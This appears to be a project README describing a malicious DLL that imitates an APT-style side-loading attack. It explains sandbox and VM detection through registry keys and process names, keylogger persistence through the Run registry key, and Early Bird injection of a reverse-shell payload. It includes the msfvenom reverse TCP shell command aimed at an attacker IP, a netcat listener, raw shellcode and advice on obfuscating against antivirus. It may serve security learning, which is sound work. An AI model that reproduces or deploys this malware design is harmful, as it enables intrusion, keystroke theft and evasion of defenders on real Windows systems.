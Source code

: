 `gBrLogAPI.cpp` is the code for the good DLL. It has an entry point and it simply prompts a message box to the user once loaded. 

`BrLogAPI.cpp` is the code for the bad DLL that the attacker will try to side-load into the main executable. 

To compile them on windows (using mingw) run,

    g++ -shared -o <cpp_file.dll> <cpp_file.cpp>
## How will DLL hijacking work?
In a real scenario, the DLL is linked to the loader during compilation. If Safe DLL search mode is enabled (which is by default on most versions) then OS will check whether the DLL is already loaded in memory or is it a part of Known DLLs registry key located at HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlSession ManagerKnownDLLs. If OS cannot find the DLL at either of these, then DLL search starts in the following order:
```
- The directory from which the application is loaded (if that happens to be the current directory then be it)
- The system directory
- The 16-bit system directory
- The windows directory
- The current working directory
- The directories listed in the PATH environment variable
```
Thus, if an attacker manages to place a DLL in the same directory from which the application is loaded, this DLL will be used instead of the actual one. This is exlpoiting the searching order of windows.

In this case, since I've directly supplied the path of the DLL, search order highjacking doesn't make sense. So, to implement something similar, we can just remove the good DLL and place the malicious DLL instead in the same directory (we need to give them the same name).

## Explaination for BrLogAPI.cpp
Here is the complete explaination of how `BrLogAPI.cpp` works (or doesn't work). There is variable called var, which has been initialised as 1. Dependning on the value of the variable, the malware will either inject itself into a process, or create registry key value pairs.

The malicious DLL performs the following tasks:
```
a. Anti-Sandbox techniques
b. Keylogger in registry keys -- Reading the AES encrypted DIFX file
c. Shellcode process Injection -- Early Bird injection
```

We'll go over each of them one at a time.

### Anti-sandbox techniques

I have used 2 methods to check if the executable is inside a sandbox environment or a Virtual Machine. If any of the checks pass, the process quickly terminates. Ideally, there can be additional functionality given to the malware to do something else inside a sandbox thus, better effectively bypassing dynamic analysis. But for now, I have not included that, I have simply terminated the program.

##### The first method is to check for the presence of specific registry keys
    HKEY_LOCAL_MACHINE\\SOFTWARE\\Vmware Inc.\\Vmware Tools
    HKEY_LOCAL_MACHINE\\HARDWARE\\DEVICEMAP\\Scsi\\Scsi Port 2\\Scsi Bus 0\\Target Id 0\\Logical Unit Id 0\\Identifier

These registry keys are found inside VMs and Sandbox Environments and thus, their presence indicates their use. The `RegOpenKeyEx()` is a win API function which returns 0 if it is able to open registries and other integers when it fails. Thus, the simple check of any of the two registries being opened (`ERROR_SUCCESS` is a pre-defined constant for 0 in win API) results in the program termination.

#### The next method is to check if specific processes are running
    Vmtoolsd.exe
    Vmwaretrat.exe
    Vmwareuser.exe
    Vmacthlp.exe
    vboxservice.exe
    vboxtray.exe
The processes listed above are found inside sandboxes and virtual machines. `IsAnyProcessRunning()` takes a snapshot of all the processes running at the time of the executable’s call and iterates over each of the processes to see if there is a match, upon which, it terminates the program.

### Registry Key manipulation

If var is set to 0, then the `keylogger` is deployed inside the `HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` registry key. What this means is, the DLL file opens this registry key, writes the executable (or test.exe in this case) to the registry key, and then closes it. This registry key is always launched (that is, its contents are run) every time the system reboots.

I use the `system()` function to execute the decryption of the `DIFX` file, then compiled the output and finally destroyed the source code. Then, using the `RegOpenKeyEx()` function I opened the specified registry key. The `KEY_WRITE` variable checks if the specified registry has writable permissions, and if it does then it returns ERROR_SUCCESS. Then I used `RegSetValueEx()` to write the exe to the registry and then closed it.

Note, that writing executables to registry keys is easily detectable via logs. Additionally, anti-malware softwares detect the use of above mentioned functions. Hence, strong obfuscation techniques are required to bypass that.

### Process Injection

Finally, I performed process injection of a windows TCP reverse shell, shell-code. The way this works is the following. The DLL initialises a variable which contains the **base64 encoded shellcode** for a windows **TCP reverse shell**. We can get the shell-code using Metasploit modules, through the following command

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_IP> LPORT=443 -f c -b \x00\x0a\x0d
We use the port `443` for communication because other ports might be blocked by the firewall. We can switch off firewall or check for valid ports (on windows) using, 

    netsh advfirewall firewall show rule dir=out name=all status=enabled

Note that the attacker public IP and the victim public IP must be different. If not, then it will be throwing a reverse shell to itself. Here is what I tried:

First, I tried to use my VMs private IP address for lhost and kept the port as 443. To catch the reverse shell, I used netcat, 'nc -lnvp 443' but the shell never came.
Then following this [link](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit/2b9fab6dc701d9a555769e14d752b3c1afb0aef1), I used my public IP for lhost but since both my windows VM and Kali VM run on the same LAN, they have the same public IP, which results in some sort of mismatch and I again don’t get the shell.
I used Metasploit as well but didn’t work, but the fault is not in the code itself, for if you switch that with this shell-code,

    \x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x53\xff\xd6\x57\xff\xd0

Then we will get a message box saying `Hello World!`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

This is how the DLL works. It starts functioning as soon as its loaded. The thing I haven't implemented here is encrypting the shell-code better using `FNV-1a hashing` and `LNZT1 compression`, and then decompressing it during runtime. This was to obfuscate the malicious backdoor that was used by the APT but even base64 decode works (of course any analyst with some experience in secruity will easily figure this out, but good enough for AVs static analysis).

